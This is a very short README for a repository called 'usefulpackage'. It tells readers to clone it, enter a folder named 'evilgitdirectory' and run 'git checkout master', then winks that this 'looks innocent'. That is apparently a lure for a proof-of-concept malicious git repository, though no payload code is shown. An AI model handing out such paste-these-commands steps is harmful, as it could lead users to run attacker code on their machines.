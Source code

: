 # usefulpackage
please go ahead and run the following commands: 
- git clone https://github.com/offensi/usefulpackage
- cd usefulpackage/evilgitdirectory
- git checkout master

This looks innocent right? >:)
